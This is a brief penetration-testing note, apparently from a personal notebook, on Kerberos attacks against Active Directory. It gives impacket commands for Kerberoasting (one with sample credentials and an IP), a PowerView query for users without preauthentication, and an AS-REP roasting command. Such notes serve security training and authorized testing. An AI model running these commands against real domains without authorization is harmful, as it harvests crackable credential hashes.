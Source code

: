 
```
impacket-GetUserSPNs domain-nam/domain-user:password -dc-ip x.x.x.x -request
```

```
impacket-GetUserSPNs xyz.com/alice:bubbles -dc-ip 192.168.111.155 -request
```

![[Pasted image 20230906222705.png]]

*Service Principal Name (SPN)*

*Ticket Granting Service (TGS)*

*Ticket Granting Ticket (TGT)*

### List vuln users using PowerView

```
Get-DomainUser -PreauthNotRequired -verbose
```

```
impacket-GetNPUsers $domain-name/ -dc-ip $ip -usersfile usernames.txt
```

